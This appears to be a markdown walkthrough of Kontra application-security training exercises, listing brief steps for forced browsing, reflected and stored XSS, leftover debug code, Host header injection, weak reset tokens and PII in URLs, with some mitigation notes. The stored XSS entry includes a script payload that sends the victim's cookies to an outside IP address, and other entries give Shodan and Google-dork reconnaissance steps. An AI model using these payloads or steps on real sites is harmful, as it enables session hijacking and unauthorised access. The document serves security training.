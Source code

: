 # This is a walkthrough of Kontra Application Secuirty platform.

## Scala 

> https://guest.application.security/exercises/96 or https://guest.application.security/exercises/207

* Forced browsing :- Search in shodan search bar "onemed" -> Open a link with login panel -> View source to find directories -> use "Link Finder" after seeing obufucated javascript code -> go to /user/register annd create account

> https://guest.application.security/exercises/206

* Reflected XSS :- Search bar in Issue section -> XSS ("<script>alert('hacked')</script>") 

> https://guest.application.security/exercises/208

* Stored XSS :- XSS in Issue Support Ticket description ("<script>new Image().src="http://193.112.33.32/?cookie=" + document.cookie;</script>") 

> https://guest.application.security/exercises/209

* LeftOver Debug code :- Search query in google -> inurl:"cloudable.com" AND (staging | test | dev) -> Look for hidden directories in source and surf it 
	- Mitigation --> In order to mitigate against deploying active debugging code in production instances, developers must ensure appropriate permissions and access-control settings are applied for accessing such features. Alternatively, development teams can add conditional variables to remove debugging code when deploying in production and staging environments. Further, development teams must proactively identify and remove developer comments that reference sensitive information including internal URL's, API endpoints or test credentials before deploying the application.

> https://guest.application.security/exercises/210

* Header Injection :- Reset password function -> Email is sent as plain text in POST request -> Modify Host header (www.abcd.com) -> Reset link controls to our domain 
	- The ability to manipulate an application's response by setting the HTTP Host header to arbitrary values is known as a Host Injection or Host Header Poisoning attack.
	- Mitigation :- In order to effectively mitigate against Header Injection attacks, developers must ensure all incoming HTTP headers are properly sanitized to prevent malicious header values from being included in the response or backend business logic. This can be achieved by implementing an allowlist of allowed hostnames and subdomains, which can be used to prevent malicious hostnames from being included in the response.

> https://guest.application.security/exercises/211

* Weak Randomness :- Forget Password token is predictable and incremental

> https://guest.application.security/exercises/212

* PII data in URL :- Data is sent in plain text in URL
	- Personally Identifiable Information (PII) is a legal term used to define any information that can be used by organizations on its own or with other information to identify, contact, or locate a single person, or to identify an individual in context.

> https://guest.application.security/exercises/213
